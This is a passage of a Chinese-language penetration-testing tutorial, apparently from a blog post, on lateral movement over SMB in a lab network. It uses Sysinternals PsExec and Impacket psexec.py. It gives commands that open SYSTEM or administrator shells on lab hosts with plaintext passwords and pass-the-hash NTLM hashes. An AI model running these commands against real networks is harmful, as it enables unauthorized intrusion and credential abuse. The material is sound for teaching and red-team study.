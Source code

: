    SMB演示环境如下图：

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0O0wOstnN63GAV6cSN5eEoMupJ6FKibGSewtbnDYwQTLLNu4LhiaUbG8kw/640?wx_fmt=png "null")

### PsExec

#### 官方Psexec

Psexec 是由 Mark Russinovich 创建的 Sysinternals Suite中包含的工具。最初，它旨在作为系统管理员的便利工具，以便他们可以通过在远程主机上运行命令来执行维护任务。后来因为太过方便，被利用到内网渗透之中。下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools，但不支持hash传递，且CS无法利用，而且该工具好像只能在具有桌面权限后才可进行利用，我这里使用msf和反弹shell都无法成功反弹shell.... 这里将psexec.64上传到跳板机中

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OKgrHNAXa19Hciapgibhpg1Gdic9HDALKJTabFP7rhKvNiaVIxJjP8pfkKg/640?wx_fmt=png "null")

然后在跳板机桌面中运行该工具，就会反弹出目标机器的shell，如下图所示。

```
psexec64.exe \\192.168.3.32 -u administrator -p admin!@#45 -s cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OehL7EmTbPmIibGXRSgfsNkZMjy44hhBHEicJ0ticBlY87TbyTotopkFNw/640?wx_fmt=png "null")

#### Impacket-PsExec

还有一个psexec就是我们的impacket套件中的工具，官方psexec有诸多限制，如不支持hash、cs、msf无法利用成功等问题，所以这里选择使用impacket中的psexec工具就相对来说比较灵活，同样，为了避免发送上传文件时数据丢失或被查杀等问题，我们可使用socket+psexec.py对其内网进行横向移动。socket配置此处不再描述，这里直接使用impacket-Psexec.py进行利用

```
psexec.py ./administrator:admin!@#45@192.168.3.32 # 通过明文密码连接获得目标本地用户交互式shell
psexec.py god/administrator:Admin12345@192.168.3.21 # 通过明文密码连接获得目标域用户交互式shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OcBYlxUoxBzbjZSzK5C6ibia5ibNm7HVqCfib1L2dtjKAIs4iaDXTXmXoaLQ/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OKrC0Gk0drWc9HhZzEzG01eKCqWBGblKKwhxkp7w0uN6QSUw0qjxFnA/640?wx_fmt=png "null")

```
python psexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 # 通过哈希密码连接获得目标本地用户交互式shell
python psexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 # 通过哈希密码连接获得目标域用户交互式shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OlWdhFq6HEOThlLPFvntvxVLxS1XsKSH892VV6CKSDIibbAiaibQfqUS2A/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/m...